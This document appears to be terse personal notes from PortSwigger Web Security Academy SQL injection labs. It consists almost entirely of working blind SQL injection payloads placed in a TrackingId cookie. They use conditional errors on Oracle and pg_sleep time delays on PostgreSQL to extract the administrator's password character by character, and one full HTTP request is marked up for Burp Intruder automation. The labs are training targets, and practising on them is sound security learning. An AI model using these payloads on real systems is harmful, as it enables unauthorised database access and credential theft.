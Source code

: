 Cookie: TrackingId=xyz' UNION (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'j' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0

Cookie: TrackingId=xyz' UNION (SELECT CASE WHEN LENGTH(password) = 20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0

https://stackoverflow.com/questions/205736/get-list-of-all-tables-in-oracle

https://portswigger.net/web-security/sql-injection/cheat-sheet

### Lab: Blind SQL injection with time delays

Cookie: TrackingId=asd' || pg_sleep(10) --; session=86lXMWhZqasRsn2qNeA0Og2CgVPfeiQm

https://portswigger.net/web-security/sql-injection/cheat-sheet

### Lab: Blind SQL injection with time delays and information retrieval

Cookie: TrackingId=z6yzkpurwwaFGhVf'%3b SELECT CASE WHEN (LENGTH(password) = 20) THEN pg_sleep(10) ELSE pg_sleep(0) END from users where username = 'administrator' --; session=JanLFZVDPB8foWtw6iQlmWuDhEBGb8pt

Cookie: TrackingId=z6yzkpurwwaFGhVf'%3b SELECT CASE WHEN (SUBSTRING(password, 1, 1) = 'a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users where username = 'administrator' --; session=JanLFZVDPB8foWtw6iQlmWuDhEBGb8pt

```
GET / HTTP/1.1
Host: 0ae8003903c64469c0d364e400a5006b.web-security-academy.net
Cookie: TrackingId=z6yzkpurwwaFGhVf'%3b SELECT CASE WHEN (SUBSTRING(password, §2§, 1) = '§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END from users where username = 'administrator' --; session=JanLFZVDPB8foWtw6iQlmWuDhEBGb8pt
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

https://www.postgresqltutorial.com/postgresql-tutorial/postgresql-case/

https://postgrespro.com/docs/postgresql/9.5/functions-string

### Lab: Blind SQL injection with out-of-band interaction
